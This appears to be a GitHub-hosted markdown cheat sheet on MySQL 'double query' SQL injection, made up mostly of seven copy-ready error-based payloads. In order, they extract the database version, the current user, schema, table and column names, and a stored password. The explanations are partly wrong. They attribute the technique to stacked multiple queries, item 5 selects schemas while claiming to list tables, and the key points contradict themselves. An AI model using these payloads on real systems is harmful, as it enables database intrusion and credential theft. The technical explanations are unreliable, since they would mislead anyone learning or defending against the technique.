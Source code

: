 
## Double Query Injection

**Double Query Injection** is a type of SQL injection that leverages the ability of MySQL versions prior to 5.7 to execute multiple queries in a single request. This technique involves injecting multiple SQL statements into a vulnerable input field, and can be used to retrieve database information through error messages.

### Prerequisites

- **MySQL Version**: The double query injection technique is applicable to MySQL versions less than 5.7, as these versions allow executing multiple queries in a single request.

### Techniques and Examples

Double query injection involves injecting queries that generate errors containing useful information. The goal is to cause the database to produce an error message that includes the output of the injected queries.

1. **Retrieve MySQL Version**
   ```sql
   1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x3a, 0x3a, (SELECT version()), 0x3a, 0x3a, FLOOR(RAND()*2)) a FROM information_schema.columns GROUP BY a) b) --+
   ```
   - **Description**: This query causes an error message to print the MySQL version by concatenating it with random data to ensure it is included in the error message.

2. **Retrieve Database Name**
   ```sql
   1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x3a, 0x3a, (SELECT database()), 0x3a, 0x3a, FLOOR(RAND()*2)) a FROM information_schema.columns GROUP BY a) b) --+
   ```
   - **Description**: This query prints the name of the current database by including it in the error message.

3. **Retrieve Current User**
   ```sql
   1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x3a, 0x3a, (SELECT user()), 0x3a, 0x3a, FLOOR(RAND()*2)) a FROM information_schema.columns GROUP BY a) b) --+
   ```
   - **Description**: This query prints the current database user by including it in the error message.

4. **Retrieve Database Names**
   ```sql
   1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x3a, 0x3a, (SELECT table_schema FROM information_schema.tables GROUP BY table_schema LIMIT 0,1), 0x3a, 0x3a, FLOOR(RAND()*2)) a FROM information_schema.columns GROUP BY a) b) --+
   ```
   - **Description**: This query prints the name of the first database schema by using `LIMIT` to restrict the result to the first entry.

5. **Retrieve Table Names in a Specific Database**
   ```sql
   1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x3a, 0x3a, (SELECT table_schema FROM information_schema.tables WHERE table_schema = "employe_db" LIMIT 0,1), 0x3a, 0x3a, FLOOR(RAND()*2)) a FROM information_schema.columns GROUP BY a) b) --+
   ```
   - **Description**: This query prints the name of a table in the specified database (`employe_db`) by using `LIMIT` to restrict the result to the first entry.

6. **Retrieve Column Names from a Specific Table**
   ```sql
   1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x3a, 0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='users' AND table_schema='employe_db' LIMIT 0,1), 0x3a, 0x3a, FLOOR(RAND()*2)) a FROM information_schema.columns GROUP BY a) b) --+
   ```
   - **Description**: This query prints the name of a column in the `users` table within the `employe_db` database.

7. **Retrieve Password from a User Table**
   ```sql
   1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x3a, 0x3a, (SELECT password FROM courses.users LIMIT 0,1), 0x3a, 0x3a, FLOOR(RAND()*2)) a FROM information_schema.columns GROUP BY a) b) --+
   ```
   - **Description**: This query prints the password from the `users` table in the `courses` database.

### Key Points

- **Error-based Information Retrieval**: Unlike traditional error-based SQL injection, which focuses on causing errors to obtain information, double query injection aims to inject and execute multiple queries to retrieve database information from error messages.
- **MySQL Version**: This technique is effective on MySQL versions prior to 5.7 due to their support for executing multiple queries in a single request.

